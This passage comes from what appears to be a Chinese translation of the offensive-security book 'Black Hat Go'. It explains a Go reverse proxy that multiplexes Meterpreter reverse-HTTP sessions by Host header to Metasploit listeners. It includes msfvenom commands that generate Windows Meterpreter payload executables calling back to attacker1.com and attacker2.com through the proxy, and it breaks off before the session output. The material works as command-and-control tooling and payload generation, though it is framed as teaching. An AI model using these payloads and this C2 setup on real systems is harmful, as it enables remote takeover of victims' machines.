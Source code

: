 ```
        ❹ remote, err := url.Parse(v)
           if err != nil {
               log.Fatal("Unable to parse proxy target")
           }  
        ❺ proxies[k] = httputil.NewSingleHostReverseProxy(remote)
       }  
   }

   func main() {
       r := mux.NewRouter()
       for host, proxy := range proxies {
        ❻ r.Host(host).Handler(proxy)
       }  
       log.Fatal(http.ListenAndServe(":80", r))
   }
```

*清单 4-10：复用 Meterpreter (*[/ch-4/multiplexer/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-4/multiplexer/main.go)*)*

首先，你会注意到你正在导入 `net/http/httputil` 包 ❶，该包包含辅助创建反向代理的功能。它将免去你从头开始创建一个的麻烦。

在导入包之后，定义一对变量 ❷。两个变量都是映射（map）。你将使用第一个变量 `hostProxy`，它将主机名映射到你希望该主机名路由到的 Metasploit 监听器的 URL。记住，你将基于代理接收到的 HTTP 请求中的 `Host` 头来进行路由。保持这个映射是确定目标的简单方法。

你定义的第二个变量`proxies`也将使用主机名作为键值。然而，它们在映射中的对应值是`*httputil.ReverseProxy`实例。也就是说，这些值将是实际的代理实例，你可以将流量路由到它们，而不是目标的字符串表示。

请注意，你正在硬编码这些信息，这并不是管理配置和代理数据的最优雅方式。更好的实现方法是将这些信息存储在外部配置文件中。我们把这个作为练习留给你。

你使用`init()`函数来定义域名和目标 Metasploit 实例之间的映射❸。在这种情况下，你将任何`Host`头值为`attacker1.com`的请求路由到`http://10.0.1.20:10080`，将任何`Host`头值为`attacker2.com`的请求路由到`http://10.0.1.20:20080`。当然，你现在还没有真正进行路由；你只是在创建一个初步的配置。请注意，这些目标与之前为 Meterpreter 监听器使用的`ReverseListenerBindAddress`和`ReverseListenerBindPort`值相对应。

接下来，仍然在你的`init()`函数中，你遍历`hostProxy`映射，解析目标地址来创建`net.URL`实例❹。你将结果作为输入传递给`httputil.NewSingleHostReverseProxy(net.URL)`❺，这是一个从 URL 创建反向代理的辅助函数。更棒的是，`httputil.ReverseProxy`类型实现了`http.Handler`接口，这意味着你可以将创建的代理实例作为路由器的处理器。在你的`main()`函数中，你这样做：创建一个路由器，然后遍历所有的代理实例。记住，键是主机名，值是`httputil.ReverseProxy`类型。对于映射中的每个键值对，你将把一个匹配函数添加到路由器中❻。Gorilla MUX 工具包中的`Route`类型包含一个名为`Host`的匹配函数，它接受一个主机名来匹配传入请求中的`Host`头值。对于你要检查的每个主机名，你会告诉路由器使用相应的代理。这是一个出乎意料的简单解决方案，能够应对本来可能是复杂的问题。

你的程序通过启动服务器并将其绑定到端口 80 来结束。保存并运行程序。你需要以特权用户身份运行，因为你正在绑定到特权端口。

到目前为止，你已经运行了两个 Meterpreter 反向 HTTP 监听器，并且现在应该也已经启动了反向代理。最后一步是生成测试有效载荷，检查你的代理是否正常工作。我们使用`msfvenom`，一个随 Metasploit 一起提供的有效载荷生成工具，来生成一对 Windows 可执行文件：

```
$ msfvenom -p windows/meterpreter_reverse_http LHOST=10.0.1.20 LPORT=80
HttpHostHeader=attacker1.com -f exe -o payload1.exe
$ msfvenom -p windows/meterpreter_reverse_http LHOST=10.0.1.20 LPORT=80
HttpHostHeader=attacker2.com -f exe -o payload2.exe
```

这会生成两个输出文件，分别命名为 *payload1.exe* 和 *payload2.exe*。请注意，除了输出文件名外，它们之间唯一的区别是 `HttpHostHeader` 值。这确保了生成的有效载荷发送 HTTP 请求时，带有特定的 `Host` 头部值。另请注意，`LHOST` 和 `LPORT` 值对应的是你的反向代理信息，而不是你的 Meterpreter 监听器。将生成的可执行文件传输到 Windows 系统或虚拟机中。当你执行这些文件时，你应该看到两个新的会话被建立：一个绑定到 10080 端口的监听器，另一个绑定到 20080 端口的监听器。它们应该类似于下面的样子：
